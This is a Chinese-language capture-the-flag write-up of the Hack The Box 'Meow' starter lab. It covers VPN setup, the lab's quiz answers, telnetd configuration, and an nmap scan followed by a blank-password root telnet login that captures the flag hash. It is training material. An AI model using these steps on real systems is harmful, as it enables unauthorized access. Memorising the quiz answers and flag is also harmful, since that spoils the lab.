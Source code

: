 <center>Starting Point</center>







[toc]









## Starting Point

> hack the box 启程。
>
> [hack](https://www.hackthebox.com)











### 1. openvpn

> vpn客户端：[openvpn](https://openvpn.net/client)

```shell
# 下载到kali中
sudo openvpn st.ovpn
```







### 1. Meow

> `start ` 开始机器： 就可以 开始攻击了。

```shell
# 1. 获取对方IP
10.129.172.42
```

1. What does the acronym VM stand for?

```shell
Virtual Machine
```

2. What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

```shell
terminal
```

3. What service do we use to form our VPN connection into HTB labs?

```shell
openvpn
```

4. What tool do we use to test our connection to the target with an ICMP echo request?

```shell
ping
```

5. What is the name of the most common tool for finding open ports on a target?

```shell
nmap
```

6. What service do we identify on port 23/tcp during our scans?

```shell
telnet
```

7. What username is able to log into the target over telnet with a blank password?

```shell
root
```





### 2. 获取flage

> telnet: [blog](https://www.cnblogs.com/WangJianqiu/p/16903331.html)
>
> `端口 23`

> telnet服务端和客户端搭建。

```shell
# kali 安装 telnet
sudo apt install telnet

1. 服务端搭建

# 安装 telnetd
sudo apt update
sudo apt install telnetd

# 如果使用 xinetd 管理
sudo apt install xinetd

# 配置文件
sudo nano /etc/xinetd.d/telnet

# 配置内容
service telnet
{
        disable         = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = root
        server          = /usr/sbin/in.telnetd
        log_on_failure  += USERID
}

# 启动服务
# 重启 xinetd 服务
sudo systemctl restart xinetd

# 或直接启动 telnet 服务
sudo systemctl start telnet.socket

# 查看状态
sudo systemctl status telnet.socket


2. 客户端连接
# Ubuntu/Debian
sudo apt install telnet

# CentOS/RHEL
sudo yum install telnet

# windows
# 使用管理员权限运行 PowerShell
dism /online /Enable-Feature /FeatureName:TelnetClient

# 基本连接
telnet hostname_or_ip 23

# 指定用户连接
telnet -l username hostname_or_ip
```



```shell
ping 10.129.172.42

# nmap
nmap -p- 10.129.172.42 -A

PORT   STATE SERVICE
23/tcp open  telnet

# 开放 telnet 23 端口
telnet 10.129.172.42 23

# root 用户不需要密码
root

# 获取flag
ls
cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```






